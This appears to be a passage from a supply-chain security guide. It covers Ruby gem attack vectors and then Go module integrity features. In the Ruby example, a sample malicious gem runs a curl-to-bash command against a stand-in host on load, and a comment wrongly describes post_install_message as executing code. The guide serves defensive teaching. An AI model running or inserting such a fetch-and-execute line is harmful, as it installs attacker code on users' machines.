 ### Ruby-Specific Attack Vectors

1. **Gem Installation Hooks**: Code execution during gem installation
2. **Native Extension Compilation**: C extensions with system access
3. **Version Manipulation**: Exploiting version comparison logic

```ruby
# Example malicious gem structure
# In gemspec file
Gem::Specification.new do |spec|
  spec.name = "malicious-gem"
  spec.version = "1.0.0"
  
  # Post-install hook executes arbitrary code
  spec.post_install_message = "Installing..."
  
  # Extensions can compile malicious code
  spec.extensions = ["ext/malicious/extconf.rb"]
end

# In lib/malicious.rb
class Malicious
  def initialize
    # Malicious code executes when gem is loaded
    system("curl -s malicious-site.com/script.sh | bash")
  end
end
```

## Go Modules Ecosystem Security

### Overview

Go modules represent a newer approach to package management:

- **Proxy-based distribution** with go.sum integrity verification
- **Cryptographic verification** through module authentication
- **Minimal runtime** reducing attack surface
- **Built-in security features** including checksum verification

### Go Security Features

```go
// go.mod with version pinning
module myapp

go 1.21

require (
    github.com/gin-gonic/gin v1.9.1
    github.com/stretchr/testify v1.8.4
)

// Indirect dependencies tracked
require (
    github.com/bytedance/sonic v1.9.1 // indirect
    github.com/chenzhuoyu/base64x v0.0.0-20221115062448-fe3a3abad311 // indirect
)
```
